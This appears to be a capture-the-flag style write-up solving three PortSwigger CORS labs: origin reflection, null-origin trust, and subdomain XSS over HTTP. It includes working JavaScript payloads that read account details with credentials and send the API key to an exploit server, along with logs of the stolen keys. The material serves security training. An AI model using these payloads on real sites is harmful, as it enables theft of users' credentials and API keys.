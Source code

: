 # Cross-origin resource sharing (CORS)

Get details at [here](https://portswigger.net/web-security/cors)

Web origins are trusted and their associated properties which includes Access-Control-Allow-Credentials header

Type of CORS attack:
 - Access-Control-Allow-Origin (ACAO)
 - Access-Control-Allow-Credentials (ACAC)

---

[Lab 1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack): Basic origin reflection attack

Description of this lab: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key and use credentials: wiener:peter

Log in with above credentials, then we can find in `/accountDetails` having response contains the Access-Control-Allow-Credentials header, it means this website supporting CORS.

Use this script in exploit server body, click store and view exploit to check everything is ok, then deliver exploit to victim and go to access log to find response

```js
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad300b20384a448c0c2754200cb00ab.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
```

We can find a request like this `GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ppangVtseLowbvHNDQTQGwasciL3jlOz%22,%20%20%22sessions%22:%20[%20%20%20%20%22qJ0YDt5Fc25rXs625eXPcWIU5RTujr4r%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"` and answer is ppangVtseLowbvHNDQTQGwasciL3jlOz (after `apikey`). Go back home and submit, then solved the lab.

[Lab 2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack): Null origin whitelisted attack

Description of this lab: this website has an insecure CORS configuration in that it trusts the "null" origin.

Log in with credentials lab 1, then we can find in `/accountDetails` having response contains the Access-Control-Allow-Credentials header, using burp repeater to send this request again with header `Origin: null`, we can see the response contains Access-Control-Allow-Origin: null

Using this script for exploit server, deliver to victim and go to access log to find response, then submit to lab

```html
    <html>
        <body>
            <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
            <script>
                var xhr = new XMLHttpRequest();
                var url = 'https://0a990009031dfd64c024136100a50073.web-security-academy.net'
                xhr.onreadystatechange = function() {
                    if (xhr.readyState == XMLHttpRequest.DONE) {
                        fetch('https://exploit-0ab8002703f8fd92c044129101490055.exploit-server.net/log?key=' + xhr.responseText)
                    }
                }
                xhr.open('GET', url + '/accountDetails', true);
                xhr.withCredentials = true;
                xhr.send(null);
            </script>"></iframe>
        </body>
    </html>
```

Response like this `GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ggF7JKNow0MpqCWEJKNxm9urvbSXZgYo%22,%20%20%22sessions%22:%20[%20%20%20%20%229WdYIfFAeLSVVAgtvs6nPRwaoXGNQp1g%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.98 Safari/537.36"` and answer is ggF7JKNow0MpqCWEJKNxm9urvbSXZgYo (after `apikey`). Go back home and submit, then solved the lab.

[Lab 3](https://portswigger.net/web-security/cors/lab-breaking-https-attack): Breaking HTTPS attack

Description of this lab: it trusts all subdomains regardless of the protocol, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key

Log in with credentials lab 1, 

At any post having check stock button, when we click on this, website will pop up new screen with URL like this `http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1&storeId=1`. Resending this with burp repeater, and it has Access-Control-Allow-Credentials header

Use this script in exploit server:

```js
    <script>
        document.location="http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5d009103eed0bfc040312500d40071.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aa400b1033fd0f0c0c83346012000f0.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
```

Do the same as lab 1,and we get log like this `"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%222xBdobabBVdlG3LL1JSSZBDYGYpzettT%22,%20%20%22sessions%22:%20[%20%20%20%20%22F6zL5lbcOG04rrzPnWPzXkB7bp2omm2O%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"`. Submit secret and solved the lab.